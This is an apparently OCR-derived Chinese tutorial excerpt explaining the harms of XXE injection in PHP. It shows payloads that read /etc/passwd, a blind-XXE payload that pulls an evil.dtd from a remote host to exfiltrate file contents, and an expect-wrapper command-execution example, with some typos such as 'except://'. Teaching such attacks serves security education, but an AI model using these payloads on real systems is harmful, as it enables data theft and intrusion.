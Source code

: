 #### XXE的危害

1. 读取任意文件
    \- 有回显
    XML.php



```xml
<?php 
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "file:///etc/passwd">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```

访问XML.php可以读取etc/passwd文件内容



```undefined
    - 无回显
```

当页面没有回显的话，可以将文件内容发送到远程服务器，然后读取。



```xml
<?xml verstion="1.0" encoding="utf-8"?>
<!DOCTYPE a[
                <!ENTITY % f SYSTEM "http://www.m03.com/evil.dtd">
                 %f;
]>
<a>&b;</a>
$data = simplexml_load_string($xml);
print_r($data);
```

远程服务器的evil.dtd文件内容



```bash
<!ENTITY b SYSTEM "file:///etc/passwd">
```

1. 命令执行

php环境下，xml命令执行要求php装有expect扩展。而该扩展默认没有安装。



```xml
<?php 
$xml = <<<EOF
<?xml version = "1.0"?>
<!DOCTYPE ANY [
    <!ENTITY f SYSTEM "except://ls">
]>
<x>&f;</x>
EOF;
$data = simplexml_load_string($xml);
print_r($data);
?>
```
